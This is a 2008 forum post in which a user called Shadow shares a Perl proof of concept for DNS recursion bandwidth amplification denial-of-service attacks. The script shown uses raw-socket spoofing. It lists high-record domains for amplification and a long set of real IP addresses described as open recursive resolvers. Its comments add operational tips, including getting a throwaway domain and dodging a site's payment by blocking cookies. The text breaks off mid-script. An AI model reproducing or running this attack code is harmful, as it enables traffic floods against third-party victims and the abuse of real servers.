 ## DNS Recursion DoS PoC
Posted by **Shadow** on Sat February 16th, 2008 06:38:38 PM

A few months ago I made a public PoC for DNS Recursion bandwidth amplification attacks. You might have seen it posted on milw0rm, packetstorm and bugtraq, and from there a bunch of other places.

[code:3lef6qmw]
#!/usr/bin/perl
# Get Net&#58;&#58;RawIP at http&#58;//search&#46;cpan&#46;org/CPAN/authors/id/S/SZ/SZABGAB/Net-RawIP-0&#46;21_01&#46;tar&#46;gz
# cpan Net&#58;&#58;DNS&#58;Resolver seems to work fine on each machine I throw it on, as well&#46;
# PS&#58; To see if you can spoof, check out the ANA Spoofer project&#46;
# http&#58;//spoofer&#46;csail&#46;mit&#46;edu/
#
# Written by Shadow
# chemshadow@gmail&#46;com

use Net&#58;&#58;DNS&#58;&#58;Resolver;
use Net&#58;&#58;RawIP;
use strict;

# Populate this list with domain names with lots of A records&#46; IRC server DNS pools are a good place to look&#46;
# Maybe get a cheap throwaway domain and add your own A records&#46;
my @name = (&quot;irc&#46;efnet&#46;net&quot;, &quot;irc&#46;dal&#46;net&quot;, &quot;irc&#46;undernet&#46;org&quot;, &quot;irc&#46;freenode&#46;net&quot;);
my $names = &quot;3&quot;; #number of entries in @name, minus one&#46;

# Populate this list with ONLY open, recursive dns servers&#46;
# http&#58;//www&#46;dnsstuff&#46;com/ - Block their cookies to use the site w/o paying&#46;
my $nameservers;
my @nameservers = (&quot;205&#46;234&#46;223&#46;168&quot;, &quot;64&#46;202&#46;117&#46;121&quot;, &quot;208&#46;80&#46;184&#46;69&quot;, &quot;200&#46;255&#46;59&#46;150&quot;,
                   &quot;38&#46;99&#46;131&#46;12&quot;, &quot;207&#46;41&#46;41&#46;248&quot;, &quot;69&#46;225&#46;174&#46;141&quot;, &quot;68&#46;87&#46;96&#46;3&quot;,
                   &quot;68&#46;87&#46;96&#46;4&quot;, &quot;195&#46;122&#46;131&#46;250&quot;, &quot;80&#46;237&#46;244&#46;50&quot;, &quot;38&#46;99&#46;77&#46;80&quot;,
                   &quot;69&#46;93&#46;224&#46;2&quot;, &quot;38&#46;99&#46;76&#46;229&quot;, &quot;38&#46;99&#46;76&#46;3&quot;, &quot;38&#46;99&#46;76&#46;2&quot;,
                   &quot;216&#46;55&#46;155&#46;41&quot;, &quot;216&#46;55&#46;155&#46;33&quot;, &quot;208&#46;48&#46;232&#46;157&quot;, &quot;64&#46;124&#46;191&#46;6&quot;,
                   &quot;143&#46;166&#46;82&#46;251&quot;, &quot;143&#46;166&#46;82&#46;252&quot;, &quot;143&#46;166&#46;224&#46;3&quot;, &quot;143&#46;166&#46;224&#46;11&quot;,